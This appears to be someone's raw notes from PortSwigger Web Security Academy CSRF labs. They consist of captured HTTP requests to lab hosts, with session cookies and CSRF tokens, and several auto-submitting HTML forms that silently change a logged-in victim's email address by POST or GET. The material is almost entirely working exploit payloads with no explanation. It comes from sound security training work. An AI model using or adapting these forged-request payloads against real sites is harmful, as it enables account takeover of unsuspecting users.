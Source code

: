 POST /my-account/change-email HTTP/2
Host: 0a90009e047a2bce86637c47002800bd.web-security-academy.net
Cookie: session=QZGaVguWh2GV6kkJyFAaS9ReUg9pljgN
Content-Length: 59
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: https://0a90009e047a2bce86637c47002800bd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a90009e047a2bce86637c47002800bd.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

email=sama%40user.com&csrf=zmuFAgmZGbXRl3gwTDXotKkv0EkFbC4L

lab1:
<form method="POST" action="https://acfe1fd91fd1c3bbc0ab31e600dd00d6.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="csrf-success@test.com"></form>
<script>
document.forms[0].submit();
</script>

lab2:
<form method="GET" action="https://0a90009e047a2bce86637c47002800bd.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="hahlol@test.com"></form>
<script>
document.forms[0].submit();
</script>

lab3:
POST /my-account/change-email HTTP/2
Host: 0ab500f40407c4b78105c59e00ca00cd.web-security-academy.net
Cookie: session=pOlBT77s73tk97k7qJagbV4ySDqFEDvA
Content-Length: 58
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: https://0ab500f40407c4b78105c59e00ca00cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab500f40407c4b78105c59e00ca00cd.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

email=sam%40user.com&csrf=Bk4vcGyNatV3MDFU9oDYzvbAuz9aR6RI

required fields :
POST /my-account/change-email HTTP/2
Host: 0ab500f40407c4b78105c59e00ca00cd.web-security-academy.net
Cookie: session=pOlBT77s73tk97k7qJagbV4ySDqFEDvA
Content-Length: 58
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/
email=sam%40user.com&csrf=Bk4vcGyNatV3MDFU9oDYzvbAuz9aR6RI


<form method="POST" action="https://acfe1fd91fd1c3bbc0ab31e600dd00d6.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="csrf-success@test.com"></form>
<script>
document.forms[0].submit();
</script>